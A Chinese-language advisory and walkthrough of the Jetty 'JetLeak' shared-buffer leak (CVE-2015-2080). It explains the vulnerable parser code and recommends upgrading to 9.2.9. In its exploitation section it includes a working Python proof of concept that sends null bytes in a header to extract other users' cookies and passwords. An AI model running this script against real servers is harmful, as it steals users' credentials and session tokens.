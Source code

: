# [CVE-2015-2080] Jetty web server 远程共享缓冲区泄漏

0x00 简介
一家叫GDS的网站很丑的安全公司近日发现了一个 jetty web server的安全漏洞，允许攻击者远程读取其他用户之前的请求信息，下一句话的意思是好好学习我就不翻译了。

简单来说，如果你运行着存在漏洞的jetty版本，那么你的密码，请求头，cookie，anti-csrf令牌，token等等一系列的东西遭到黑客窃取。比如post请求中包含的信息。

GDS还发现一个重要的事情就是，此数据泄漏漏洞本身并不局限于request请求，还可以应用在response上，为了方便，这里只简单演示下攻击request。

漏洞的根本原因在于，当提交非法的headers给服务器时会触发异常处理代码，其返回一个约16字节的共享缓冲区数据。so，攻击者可以通过精心构造headers值来触发异常并偏移到共享缓冲区，其中包含了之前其他用户提交的请求，服务器会根据攻击者的payload返回特定位置的数据。

0x01 相关信息
漏洞影响的版本至 9.2.3之后的大多数版本。

gds写了一个简单的python脚本用于测试是否存在该漏洞，读者可以从github上下载该脚本。

https://github.com/GDSSecurity/Jetleak-Testing-Script

0x02 漏洞原因
这一小节我们会集中在服务器如何解析request。

当jetty接受到一个http请求，下面的代码会用于解析request中的header值，服务器会循环检查所有的字符，以下是检查事项。

1164行 服务器检查是否是无效的ascii字符

1172行 检查字符是否是为一个空格or tab。

1175行 是否是换行字符

1186行 如果字符中存在非法的ascii字符（比如小于0x20）那么代码就会抛出一个IllegalCharacter异常，并且传入异常字符串和共享缓冲区。

File: jetty-http\src\main\java\org\eclipse\jetty\http\HttpParser.java

920: protected boolean parseHeaders(ByteBuffer buffer)
921: {
[..snip..]
1163:     case HEADER_VALUE:
1164:         if (ch>HttpTokens.SPACE || ch<0)
1165:         {
1166:             _string.append((char)(0xff&ch));
1167:             _length=_string.length();
1168:             setState(State.HEADER_IN_VALUE);
1169:             break;
1170:         }
1171:
1172:         if (ch==HttpTokens.SPACE || ch==HttpTokens.TAB)
1173:            break;
1174:
1175:         if (ch==HttpTokens.LINE_FEED)
1176:         {
1177:             if (_length > 0)
1178:             {
1179:                 _value=null;
1180:                 _valueString=(_valueString==null)?
                             takeString():(_valueString+” “+
                             takeString());
1181:             }
1182:             setState(State.HEADER);
1183:             break;
1184:         }
1185:
1186:         throw new IllegalCharacter(ch,buffer);
接着屌丝们跟踪代码到IllegalCharacter的实现，服务器用string.format方法返回一个非法字符的错误消息，问题出在最后代码通过调用BufferUtil.toDebugString来输出共享内存的内容。

File: jetty-http\src\main\java\org\eclipse\jetty\http\HttpParser.java

1714: private class IllegalCharacter extends BadMessage
1715: {
1716:     IllegalCharacter(byte ch,ByteBuffer buffer)
1717:     {
1718:         super(String.format(“Illegal character 0x%x 
                      in state=%s in '%s’”,ch,_state,
                      BufferUtil.toDebugString(buffer)));
1719:     }
1720: }
接着到toDebugString方法，总的来说就是调研了appendDebugString将StringBuider作为第一个参数，缓冲区作为第二个参数，StringBuider的内容最终由appendDebugString进行填充并且返回给用户。

File: jetty-util\src\main\java\org\eclipse\jetty\util\BufferUtil.java

 963: public static String toDebugString(ByteBuffer buffer)
 964: {
 965:     if (buffer == null)
 966:         return “null”;
 967:     StringBuilder buf = new StringBuilder();
 968:     appendDebugString(buf,buffer);
 969:     return buf.toString();
 970: }
额，我们前面说道，共享内存包含之前的request数据，为了让黑客能够获取指定的数据，那么我们就需要创建一个足够长的非法字符串去不断覆盖不重要的数据直到服务器返回我们想要的数据。我们可以看到，在代码996行，在进行append之前，攻击者已经通过非法header偏移到之前的请求，那么此时返回的16字节应该会包含我们想要的数据。

File: jetty-util\src\main\java\org\eclipse\jetty\util\BufferUtil.java

972:  private static void appendDebugString(StringBuilder buf,ByteBuffer buffer)
973: {
[..snip..]
983:     buf.append(“<<<”);
984:     for (int i = buffer.position(); i < buffer.limit(); i++)
985:     {
986:         appendContentChar(buf,buffer.get(i));
987:         if (i == buffer.position() + 16 && 
                     buffer.limit() > buffer.position() + 32)
988:         {
989:             buf.append(“…”);
990:             i = buffer.limit() - 16;
991:         }
992:     }
993:     buf.append(“>>>”);
994:     int limit = buffer.limit();
995:     buffer.limit(buffer.capacity());
996:     for (int i = limit; i < buffer.capacity(); i++)
997:     {
998:         appendContentChar(buf,buffer.get(i));
999:         if (i == limit + 16 && 
                    buffer.capacity() > limit + 32)
1000:        {
1001:             buf.append(“…”);
1002:             i = buffer.capacity() - 16;
1003:         }
1004:     }
1005:     buffer.limit(limit);
1006: }
简单来说这次的漏洞主要问题出在对于非法字符的异常触发上，就是IllegalCharacter，笔者罗列了调用了IllegalCharacter的文件。

\jetty.project-jetty-9.2.x\jetty-http\src\main\java\org\eclipse\jetty\http\HttpParser.java:401
\jetty.project-jetty-9.2.x\jetty-http\src\main\java\org\eclipse\jetty\http\HttpParser.java:530
\jetty.project-jetty-9.2.x\jetty-http\src\main\java\org\eclipse\jetty\http\HttpParser.java:547
\jetty.project-jetty-9.2.x\jetty-http\src\main\java\org\eclipse\jetty\http\HttpParser.java:1161
\jetty.project-jetty-9.2.x\jetty-http\src\main\java\org\eclipse\jetty\http\HttpParser.java:1215
下面一个小节进行了一次简单的攻击。

0x03 漏洞利用
Step 1:
jetty版本 version 9.2.7.v20150116

注意下面的请求，我们假设一个受害人发送了这玩意，请注意cookie和post，我们将通过攻击jetty获取下列的值。

Reproduction Request (VICTIM):

POST /test-spec/test HTTP/1.1
Host: 192.168.56.101:8080
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64; rv:35.0) Gecko/20100101
Cookie: password=secret
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101:8080/test-spec/
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

param1=test
Reproduction Response (VICTIM):

HTTP/1.1 200 OK
Set-Cookie: visited=yes
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html
Server: Jetty(9.2.7.v20150116)
Content-Length: 3460
Step 2:
之后，攻击者用一个简单的python脚本，在header中插入44个空字节，这回导致异常的触发，需要注意的是，搞清楚多少个字节才能覆盖到敏感数据是一个反复的过程，建议先通过较小的字符串，不断加大，如果一开始选择较大的字符串可能会覆盖一些敏感数据。

import httplib, urllib

conn = httplib.HTTPConnection("127.0.0.1:8080")

headers = {"Referer": chr(0)*44}
conn.request("POST", "/test-spec/test", "", headers)
r1 = conn.getresponse()
print r1.status, r1.reason
Step 3:
一旦运行上面的python脚本，那么攻击者就会收到如图中所示的错误信息，请注意其中包含的cookie和密码，如果你想要大于16个字节的数据，那么修改下长度多跑几次就好了。

enter image description here

enter image description here

0x04 结语和修复建议
如果你不幸运行着存在漏洞版本的jetty，那么官方的建议是立即更新到version 9.2.9.v20150224。 这里有一份jetty的客户名单，我就不说我看到阿里了。

http://eclipse.org/jetty/powered/

如果需要进行版本更新可以通过以下地址

Maven - http://central.maven.org/

Jetty Downloads Page - http://download.eclipse.org/jetty

这里是原文：http://blog.gdssecurity.com/labs/2015/2/25/jetleak-vulnerability-remote-leakage-of-shared-buffers-in-je.html

我省略了修复建议中的一些细节还有漏洞披露的时间表，具体可以参考原文。